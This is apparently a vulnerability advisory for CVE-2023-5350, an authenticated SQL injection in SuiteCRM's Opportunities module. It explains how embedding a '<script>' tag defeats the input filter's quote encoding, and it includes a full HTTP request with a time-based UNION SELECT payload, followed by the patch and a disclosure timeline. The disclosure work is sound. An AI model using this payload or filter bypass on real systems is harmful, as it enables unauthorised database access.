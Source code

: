 ```yaml
---
layout: post
title:  CVE-2023-5350 - SuiteCRM < v7.14.0 authenticated SQL injection
date:   2024-01-11 02:50:40 +0100
img_path: /assets/img/2024-01-11-cve-2023-5350-SuiteCRM-SQLi/
category: advisory
inadvisory: true
cve: CVE-2023-5350
advisory_title: SuiteCRM < v7.14.0 authenticated SQL injection
date_cve: 2024-06-30
details_ok: true
hidden: true
---
```


# TL;DR

Authenticated SQL injection affecting the ``Opportunities`` module of SuiteCRM for versions prior to 7.14.0


# Details

At CrowdStrike, following claims from a threat actor to have hacked SuiteCRM at multiple entities using a SQL injection, I started a little audit of SuiteCRM to uncover whether the threat was realistic or not. Upon research, I stumbled on the ``modules/Opportunities/Save.php`` file, in which we can find the following code:

```php
require_once('modules/Opportunities/OpportunityFormBase.php');
$opportunityForm = new OpportunityFormBase();
$opportunityForm->handleSave('',true,false);
```

The ``handleSave`` function may end up calling the ``clone_relationship`` function, using the ``duplicate_parent_id`` ``POST`` variable as 4th argument:

![code1](code1.png)

Within the ``clone_relationship`` function, a SQL query is created with this 4th argument, that could lead to SQL injection:

```php
function clone_relationship(&$db, $tables, $from_column = null, $from_id = null, $to_id = null)
{
    [...]
            $query = "SELECT * FROM $table WHERE $from_column='$from_id'";
        }
        $results = $db->query($query);
    [...]
```

At that point, several security measures prevent direct exploitation of this SQL injection:
- The ``Save.php`` file cannot be accessed directly due to a ``.htaccess`` directive setting up a ``403 unauthorized access`` on modules directory.
- The ``Save.php`` requires a valid “SugarEntry” entrypoint, that gets defined by going through the ``index.php`` endpoint with the ``action=Save`` and ``module=Opportunities`` parameters. However, doing so, the ``POST`` variables are filtered (quote gets encoded) against basic SQL injection through the use of the ``clean_incoming_data`` function.

Yet, the ``clean_incoming_data`` function can be tricked into leaving quotes unencoded, as highlighted by [this previous bounty report](https://huntr.dev/bounties/8afb7991-c6ed-42d9-bd9b-1cc83418df88/). Yet, the inner working of this bypass was not explained. 

Typically, the ``clean_incoming_data`` function calls the inner ``securexss`` function on each ``$_POST`` value. This ``securexss`` function first encodes quotes and then calls the ``xss_clean`` function from Voku. This ``xss_clean`` function decodes all characters present in the input string to clean; in order to detect and strip all the javascript related words afterwards. In case a javascript payload is detected by the function, then the cleaned up (and so decoded) string is returned. In case there is no payload detected, then the original string is returned (the encoded one). By integrating ``<script>`` in the SQL payload, ``xss_clean`` decodes the string (transform back the encoded quote to a decoded one), detect the attack and remove the ``<script>`` tag before returning the string with the decoded quote.

Here is an example request showing SQL injection by triggering a 5 seconds sleep by SuiteCrm application:

```
POST /suitecrm/index.php HTTP/1.1

Host: <redacted>
Content-Length: 633
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: <redacted>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<redacted>/suitecrm/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: EmailGridWidths=0=10&1=10&2=150&3=250&4=175&5=125; Users_sp_tab=All; Opportunities_sp_tab=All; ck_login_language_20=en_us; ck_login_theme_20=SuiteP; sugar_user_theme=SuiteP; PHPSESSID=7t8i63rduuadi6vg2n5tsemrq9; ck_login_id_20=d1c6197a-c7cf-4d2f-6970-649c44bd341a
Connection: close


module=Opportunities&record=&duplicateSave=true&duplicate_parent_id=1</script>'%20UNION%20SELECT%20sleep(5),1,2,3,4,5%20--%20-&duplicateId=3005bd81-1904-8e56-d5f5-649d55cc7438&isDuplicate=false&action=Save&return_module=Opportunities&return_action=DetailView&return_id=&module_tab=&contact_role=&offset=1&name=test23&account_name=testaccount&account_id=9bf1efd4-30c2-9e99-067c-649d4e24e2bf&currency_id=-99&date_closed=09%2F07%2F2023&amount=1%2C000%2C000.00&opportunity_type=&sales_stage=Prospecting&lead_source=&probability=10&campaign_name=&campaign_id=&next_step=&description=&assigned_user_name=gg+Administrator&assigned_user_id=1
```
# Proposed patch

The following modifications were proposed to secure the vulnerability:

- Use ``focus->db->quote`` in front of the ``$_POST['duplicate_parent_id']`` variable in the ``clone_relationship`` call to make sure quotes are escaped **->** <span style="color:green">implemented ([commit](https://github.com/salesagility/SuiteCRM/commit/bd9328e79f39ad0f49a53f609bfb5e42762b5fd8))</span>
- Modify the ``securexss`` function to encode the string after the ``xss_clean`` function call **->** vendor argued testing was necessary before incorporating this change, which is understandable. Last time I checked it was not implemented.

# Timeline

30 Jun 2023 : initial report
30 Jun 2023 : vendor confirmation
29 Aug 2023 : update available
